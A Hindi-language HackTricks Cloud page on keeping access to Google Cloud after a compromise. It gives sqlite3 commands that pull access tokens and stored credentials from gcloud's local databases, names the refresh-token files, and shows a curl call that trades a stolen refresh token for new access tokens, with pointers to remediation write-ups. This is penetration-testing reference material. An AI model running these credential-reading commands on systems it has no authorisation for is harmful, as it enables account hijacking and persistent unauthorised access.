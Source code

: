 # GCP - गैर-सेवा स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

ये उपयोगी तकनीकें हैं, जब आपने किसी GCP क्रेडेंशियल या GCP वातावरण में चल रही किसी मशीन को किसी प्रकार से कंप्रोमाइज कर लिया है।

## टोकन हाइजैकिंग

### प्रमाणीकृत उपयोगकर्ता टोकन

एक उपयोगकर्ता के **वर्तमान टोकन** प्राप्त करने के लिए आप निम्नलिखित को चला सकते हैं: 

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पेज में देखें कि **gcloud का उपयोग करके इस टोकन का सीधा उपयोग कैसे करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नए एक्सेस टोकन उत्पन्न करने** के लिए विवरण प्राप्त करने के लिए निम्नलिखित को चलाएं:
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

यह भी संभव है कि **`$HOME/.config/gcloud/application_default_credentials.json`** और **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** में रिफ्रेश टोकन्स मिल सकते हैं।

नए रिफ्रेश एक्सेस टोकन प्राप्त करने के लिए **रिफ्रेश टोकन**, क्लाइंट आईडी, और क्लाइंट सीक्रेट के साथ निम्नलिखित को चलाएं:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

फ्रेश टोकन की वैधता को **व्यवस्थापक** > **सुरक्षा** > **Google Cloud सत्र नियंत्रण** में प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से यह 16 घंटे के लिए सेट किया गया है हालांकि यह कभी भी समाप्त नहीं होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### सेवा खाते

यदि आप किसी सेवा खाते की **निजी कुंजी फ़ाइल को कंप्रमाइज़** कर लेते हैं, तो आप **उसे जितनी देर चाहें तक एक्सेस** कर सकते हैं।\
हालांकि, यदि आप किसी सेवा खाते के **OAuth टोकन** को चुरा लेते हैं तो यह और भी दिलचस्प हो सकता है, क्योंकि, डिफ़ॉल्ट रूप से ये टोकन एक घंटे के लिए ही उपयोगी होते हैं, लेकिन यदि **विक्टिम निजी एपीआई कुंजी को हटा देता है, तो OAuh टोकन अब तक वैध रहेगा जब तक यह समाप्त नहीं होता**।

### मेटाडेटा

स्पष्ट रूप से, जब तक आप GCP परिवेश में चल रही मशीन में हैं, आप **मेटाडेटा एंडपॉइंट से सेवा खाते तक पहुंच सकेंगे** (ध्यान दें कि इस एंडपॉइंट में आप एक्सेस कर सकते हैं ओआथ टोकन आम तौर पर स्कोप्स द्वारा प्रतिबंधित होते हैं)।

### सुधार

इन तकनीकों के लिए कुछ सुधार की व्याख्या [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में की गई है।

## संदर्भ

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकिंग ट्रिक्स को **HackTricks** और **HackTricks Cloud** github रेपो में PR जमा करके।

</details>
